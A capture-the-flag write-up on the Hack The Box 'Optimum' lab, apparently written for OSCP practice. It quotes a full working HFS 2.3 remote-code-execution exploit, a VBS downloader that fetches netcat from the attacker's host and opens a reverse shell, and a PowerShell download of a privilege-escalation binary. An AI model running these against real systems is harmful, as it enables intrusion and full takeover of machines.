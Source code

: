 ```yaml
---
layout:     post
title:      Hackthebox Notes Optimum Pwned
date:       2021-01-31
summary:    Run against Optimum machine on Hackthebox.eu
categories: CTF
thumbnail: cogs
tags:
 - CTF
 - Hackthebox
 - Owned
---
```


# Optimum  
I have no idea how this one will go.  
Started out with autorecon scan, which took so much longer than my typical #nmap -sV -A -p- -oN outfile ipaddress scan.  
Autorecon scans have finished.  
Nothing unremarkable, port 80 open with HFS 2.3 marked as service version.  
Navigated to 10.10.10.8:80 in browser, and yeah it's a webserver with HttpFileServer 2.3.  
Searched exploit-db for httpfileserver 2.3, found some exploits  
Reviewed code for exploits and chose the Remote Code Execution exploit that looked the most promising, https://www.exploit-db.com/exploits/39161  
{% highlight ruby %}
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
{% endhighlight %}  
I immediately reassigned the variables ip_addr & local_port to match my own.  
I then pasted the variable vbs into an http decoder.  
{% highlight ruby %}
"C:\Users\Public\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with"
{% endhighlight %}
So essentially, the vbs script will look for nc.exe (netcat binary) at ip_addr (my vpn IP), and save it to C:\Users\Public.  
Afterward, the exploit code will execute nc.exe in CMD at my ip address and given port.  
So I copied nc.exe to a folder on my machine, and started an http server with #python3 -m http.server (this is python3 syntax).  
I then started a netcat server with #nc -lnvp portnumber, where portnumber matches local_port from above script.  
I then executed the exploit from my terminal with $python3 exploit.py 10.10.10.8 80.  
It errored out.  
I did some finagling and edited/troubleshot all the way down to the very bottom of the script (print statement), then I realized that the python script is written for python 2.7.  
So I un-finagled the script, and ran it again with $/usr/bin/python2.7 exploit.py 10.10.10.8 80.  
Exploit ran, I saw the http server I started hand out nc.exe with a 200 OK, and the open netcat shell connected with a CMD prompt.  
I navigated to user desktop and type'ed flag, then ran systeminfo.  
Meanwhile, on my own machine, I located windows-exploit-suggester.  I updated it, pasted the sysinfo content into a systeminfo.txt, and ran the script with the updated database and txt.  
Apparently this machine is vulnerable to an integer overflow.  
I downloaded the suggested exploit with $wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe into the http.server directory.  
I then closed and started up a new http.server at a different port.  
I messed around with a few variants of downloading via powershell and eventually this one worked:  
{% highlight ruby %}
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://vpnIP:PORT/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"  
{% endhighlight %}
I then navigated to that directory and executred the new exploit.  
I saw no special output in the shell, until I ran whoami.  
{% highlight ruby %}
nt authority/system
{% endhighlight %}
Yep, that's me!  
I then navigated to the Administrator's desktop and type'd the root flag.  
Another machine from the TJ Null OSCP Prep list complete.  This makes 11 machines rooted so far.  
